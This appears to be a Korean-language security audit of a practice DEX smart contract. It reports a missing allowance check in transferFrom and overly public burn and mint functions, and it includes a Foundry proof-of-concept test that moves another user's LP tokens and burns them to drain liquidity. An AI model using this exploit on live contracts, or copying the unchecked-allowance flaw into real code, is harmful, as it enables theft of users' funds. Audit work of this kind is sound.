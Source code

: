 # 1. Unchecked Token allowance to DEX
## Description
- `Dex.sol:transferFrom(L: 147-148)`
`transferFrom`함수는 제 3자가 토큰을 다른사람에게 전송할 수 있도록 하는 함수입니다. 이 때 제 3자는 해당 토큰에 대한 approve가 선행되어있어야 합니다. 그러나 해당 함수에서는 DEX에 대해 LP token을 전송할때 allowance를 검사하지 않고 바로 토큰을 전송시켜주도록 구현되었습니다. 따라서 제 3자가 허용되지 않은 남의 LP token을 DEX 컨트랙트에 전송시킬 수 있습니다.
## Impact
### Critical
다른사람의 자산을 강제로 이동시킬 수 있습니다. 또한 `burn`함수를 살펴보면, DEX 컨트랙트에 현재 남아있는 LP토큰을 소각시켜 호출자에게 소각시킨 만큼의 유동성을 제공하도록 되어있습니다. 따라서 공격자는 모든 LP 토큰을 소각시켜 DEX의 모든 유동성을 탈취할 수 있습니다.
```solidity
    function test_exploitToTransferAndBurn() external {
        uint lp1 = dex.addLiquidity(1000 ether, 1000 ether, 0);
        console.log(dex.balanceOf(address(this))); // 1000000000000000000000
        vm.startPrank(address(1));
        dex.transferFrom(address(this), address(dex), lp1);
        console.log(dex.balanceOf(address(this))); // 0

        (uint x, uint y) = dex.burn(address(1));
        console.log(tokenX.balanceOf(address(1))); // 1000000000000000000000
        console.log(tokenY.balanceOf(address(1))); // 1000000000000000000000
    }
```
## Recommendation
`transferFrom`함수에서 적절하게 allowance를 검증해야 합니다.
# 2. Insufficient Function Modifier
## Description
- `Dex.sol:burn(L: 53-72)`
- `Dex.sol:mint(L: 84-107)`
`burn`함수와 `mint`함수는 각각 `removeLiquidity`함수와 `addLiquidity`함수의 내부함수로써 사용됩니다. 특히 `mint`함수는 단독으로 호출할 경우, `addLiquidity`의 조건문을 우회할 수 있습니다. 불필요한 권한을 최소화하도록 조치를 취하여야 합니다.
## Impact
### low
이 함수만으로 치명적인 자산탈취를 일으킬 순 없지만, 다른 취약점과 결합되었을 경우 큰 문제점을 야기할 수 있습니다. 불필요한 접근을 차단하여 파생될 수 있는 취약점을 최소화 하는 것이 바람직합니다.
## Recommendation
`internal` 또는 `private` 함수로 수정하는 것을 권장합니다.
